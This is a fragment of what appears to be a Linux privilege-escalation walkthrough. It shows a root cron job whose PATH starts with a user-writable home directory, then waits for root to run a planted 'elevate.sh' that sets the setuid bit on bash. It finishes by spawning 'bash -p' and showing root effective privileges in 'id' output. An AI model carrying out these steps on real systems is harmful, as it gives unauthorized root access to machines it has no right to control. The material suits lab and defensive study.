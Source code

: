 Set up the cron job:

```sh
SHELL=/bin/bash
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

* * * * * root elevate.sh
```

> Note: The PATH variable starts with **/home/user** which is our user's home directory.

Wait a minute, then "root" will run the script "elevate.sh":

```shell
watch -n 1 ls -l /usr/bin/bash
```

This output is what we want to get:

```sh
-rwsr-sr-x
```

Then we can bash shell the `setuid` bit as the `root` user by passing the `-p` flag:

```shell
❯ bash -p
```

We can confirm this by using `id`:

```sh
bash-5.1# id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),135(lxd),136(sambashare),1000(user)
```
